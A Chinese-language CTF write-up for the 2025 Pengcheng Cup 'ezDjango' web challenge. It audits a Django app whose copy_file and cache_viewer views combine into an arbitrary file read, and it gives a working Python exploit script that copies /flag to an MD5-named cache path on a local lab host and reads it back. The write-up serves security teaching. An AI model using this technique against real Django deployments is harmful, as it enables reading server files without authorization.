


# 2025鹏城杯CTF - ezDjango

1. 题目来源：2025鹏城杯CTF
2. 题目方向：Web；知识点：Django FileBasedCache、任意文件复制、缓存文件读取、MD5路径构造

## 解题思路

白盒审计，发现大部分功能都在 `app/cacheapp/views.py` 实现。先看下读取相关的函数：

```python
def copy_file(request):
    if request.method == "POST":
        src = request.POST.get('src', '')
        dst = request.POST.get('dst', '')
        if not src or not dst:
            return json_error('Source and destination required')
        try:
            if not os.path.exists(src):
                return json_error('Source file not found')
            os.makedirs(os.path.dirname(dst), exist_ok=True)
            content = read_file_bytes(src)
            with open(dst, 'wb') as dest_file:
                dest_file.write(content)
            return json_success('File copied', src=src, dst=dst)
        except Exception as e:
            return json_error(str(e))

    return render(request, 'copy.html')
```

注意到 `copy_file` 函数可以任意复制文件到指定的目录。接着找有读取功能的函数：

```python
def cache_viewer(request):
    if request.method == "POST":
        cache_key = request.POST.get('key', '')
        if not cache_key:
            return json_error('Cache key required')
        try:
            path = os.path.join(cache_dir(), cache_filename(cache_key))
            if os.path.exists(path):
                content = read_file_bytes(path)
                return json_success('Read cache raw', cache_path=path, raw_content=content.hex())
            return json_error(f'Cache file not found: {path}')
        except Exception as e:
            return json_error(str(e))

    return render(request, 'cache_viewer.html')
```

发现 `cache_viewer` 函数会返回十六进制后的文件内容，前提是 `os.path.exists(path)` 成立，而 `copy_file` 会创建路径。

`path` 由 `cache_dir` 和 `cache_filename(cache_key)` 组成：

```python
CACHES = {
    'default': {
        'BACKEND': 'django.core.cache.backends.filebased.FileBasedCache',
        'LOCATION': os.environ.get('CACHE_PATH', '/tmp/django_cache'),
    }
}

def cache_filename(key: str) -> str:
    return f"{hashlib.md5(key.encode()).hexdigest()}.djcache"
```

搞明白了，读取文件的路径就是 `/tmp/django_cache/key的md5.djcache`。

整理下思路：因为这是复现环境，我手写一个 flag 放到根目录，然后利用 `copy_file` 把 flag 复制到构造好的路径，再用 `cache_viewer` 读出来。

脚本如下：

```python
import requests
import hashlib

url = "http://192.168.247.128:8000/"
path = "/flag"

key = "fks"
key_hash = hashlib.md5(key.encode()).hexdigest()
cache_path = f"/tmp/django_cache/{key_hash}.djcache"

copy_data = {"src" : path, "dst" : cache_path}
r1 = requests.post(f"{url}copy/", data=copy_data)


res = requests.post(f"{url}cache/viewer/", data={'key': key})
data = res.json()
raw = data.get('raw_content')
content = bytes.fromhex(raw).decode()
print(content)
```



运行脚本，成功读出 flag：



## Flag

```
flag{123123}
```
